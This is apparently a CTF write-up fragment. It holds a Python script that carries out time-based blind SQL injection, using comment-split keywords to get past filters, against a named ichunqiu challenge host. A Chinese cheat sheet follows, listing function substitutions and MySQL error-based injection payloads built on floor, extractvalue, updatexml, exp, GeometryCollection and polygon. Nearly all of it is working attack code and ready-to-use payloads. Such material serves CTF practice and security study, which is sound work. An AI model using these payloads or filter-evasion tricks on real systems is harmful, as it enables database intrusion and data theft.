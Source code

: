 ```py
import requests
import string
dict = string.ascii_letters+string.digits+string.punctuation
url = 'http://eci-2zeiy398zbyemuamfuuh.cloudeci1.ichunqiu.com'

res = ''
sql = "sele/**/ct/**/database()"
# sql = 'sele/**/ct'
# payload = "1')and if (ascii(substring(database(),%s,1))=%s) #"
payload = "or i/**/f ((as/**/cii(sub/**/str((" + sql + "),%s,1))li/**/ke/**/%s),sl/**/eep(2),1)"
payload = payload.replace(' ','/**/')

for i in range(1, 100):
    for j in range(37, 127):
        new_payload = payload % (i, j)
        new_url = url
        print(new_payload)
        data = {
            'username': '\\',
            'password': new_payload+'%00',
        }
        try:
            r = requests.post(url=new_url,timeout=1.5,data=data)

        except:
            res += chr(j)
            print(res)
            break
    print(i)
```
# SQL注入的报错注入函数
## 函数替换
```p
sleep() -->benchmark()
ascii()–>hex()、bin()
group_concat()–>concat_ws()
substr(),substring(),mid()可以相互取代, 取子串的函数还有left(),right()
user() --> @@user、datadir–>@@datadir
ord()–>ascii():这两个函数在处理英文时效果一样，但是处理中文等时不一致。
```
## floor()
id = 1 and (select 1 from  (select count(*),concat(version(),floor(rand(0)*2))x from  information_schema.tables group by x)a)
## extractvalue()
id = 1 and (extractvalue(1, concat(0x5c,(select user()))))
## updatexml()
id = 1 and (updatexml(0x3a,concat(1,(select user())),1))
## exp()
id =1 and EXP(~(SELECT * from(select user())a))
## GeometryCollection()
id = 1 AND GeometryCollection((select * from (select * from(select user())a)b))
## polygon()
id =1 AND polygon((select * from(select * from(select user())a)b))